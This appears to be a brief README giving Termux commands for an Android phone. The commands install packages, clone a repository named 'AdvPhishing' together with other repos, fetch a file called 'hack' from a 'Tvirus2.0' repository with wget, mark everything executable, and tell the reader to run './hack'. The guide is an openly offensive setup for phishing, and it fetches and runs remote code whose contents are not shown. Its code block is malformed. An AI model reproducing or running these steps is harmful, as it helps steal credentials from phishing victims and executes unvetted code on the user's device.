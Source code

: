 # Follow This
* Vist Ngrok = [Here](ngrok.com)
* Download Termux = [Here](https://f-droid.org/repo/com.termux_112.apk)


```
pkg upgrade
pkg install wget
pkg install git
pkg install python
git clone https://github.com/Ignitetch/AdvPhishing
git clone https://github.com/T-Dynamos/Maths_Bot m_bot
git clone https://github.com/Cabbagec/termux-ohmyzsh
wget https://raw.githubusercontent.com/T-Dynamos/Tvirus2.0/main/hack
cd Advphishing
bash Android-Setup.sh
'''
* Second Time 

cd termux-ohmyzsh
bash install.sh
cd
chmod +x *
clear
echo Exectue = ./hack


